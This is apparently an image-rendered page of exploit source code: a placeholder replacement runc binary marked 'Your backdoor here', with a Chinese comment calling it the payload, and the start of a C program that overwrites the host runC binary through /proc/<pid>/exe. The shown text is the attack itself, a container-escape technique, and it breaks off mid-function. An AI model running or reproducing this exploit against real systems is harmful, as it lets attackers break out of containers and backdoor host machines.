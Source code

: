 ```
$ cat new_runc.c

#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

int main(int argc, char *argv[])
{
	printf("\n**THE ALL NEW AND IMPROVED RUNC**\n\n");
	printf("\t[+] Your backdoor here ->\n\n");
	return 0;
}
// 这里是覆盖runc文件的payload代码 

```

```
$ cat overwrite_runc.c
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <errno.h>

#include <stdlib.h>
#include <string.h>
#include <stdio.h>

/* Simple Buffer*/
typedef struct Buffer
{
	int len;		// buffer length
	void * buff;	// buffer data
} Buffer;


#define FALSE 0
#define TRUE  1

const char * DEFAULT_NEW_RUNC_PATH = "/new_runc";
const unsigned int PATH_MAX_LEN = 30;
const int OPEN_ERR = -1;
const int RET_ERR = 1;
const int RET_OK = 0;

const long WRITE_TIMEOUT = 99999999999999999;
Buffer read_new_runc(char * new_runc_path);


/*
* Usage: overwrite_runc </proc/runc_pid/exe> <new runc path>
* Overwrites the runC binary.
*/
int main(int argc, char *argv[])
{
	int runc_fd_read, my_runc_fd, wc;
	char my_runc_fd_path[PATH_MAX_LEN];
	char * new_runc_path;                    	 // path to file to replace runc
	char * runc_exe_path;
	Buffer new_runc;


	if (argc == 1 || argc > 3)
```
